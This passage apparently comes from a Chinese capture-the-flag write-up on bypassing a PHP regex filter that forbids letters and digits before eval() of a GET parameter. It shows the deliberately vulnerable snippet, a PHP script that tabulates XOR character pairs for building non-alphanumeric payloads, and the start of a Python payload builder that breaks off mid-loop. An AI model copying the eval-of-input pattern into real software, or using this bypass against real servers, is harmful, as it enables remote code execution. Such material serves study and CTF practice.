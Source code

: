 ```php
<?
if(!preg_match('/[a-z0-9]/is',$_GET['code'])){
  eval($_GET['code']);
}
```

### 异或运算绕过

```php
// 生成所有可见字符的异或构造结果
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents = "";
for ($i = 0; $i < 256; $i++) {
    for ($j = 0; $j < 256; $j++) {

        if ($i < 16) {
            $hex_i = '0' . dechex($i);
        } else {
            $hex_i = dechex($i);
        }
        if ($j < 16) {
            $hex_j = '0' . dechex($j);
        } else {
            $hex_j = dechex($j);
        }
        $preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
        if (preg_match($preg, hex2bin($hex_i)) || preg_match($preg, hex2bin($hex_j))) {
            echo "";
        } else {
            $a = '%' . $hex_i;
            $b = '%' . $hex_j;
            $c = (urldecode($a) ^ urldecode($b));
            if (ord($c) >= 32 & ord($c) <= 126) {
                $contents = $contents . $c . " " . $a . " " . $b . "\n";
            }
        }

    }
}
fwrite($myfile, $contents);
fclose($myfile);
```

```python
# 构造 payload
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os

def action(arg):
    s1 = ""
    s2 = ""
    for i in arg:
        f = open("xor_rce.txt", "r")
        while True:
```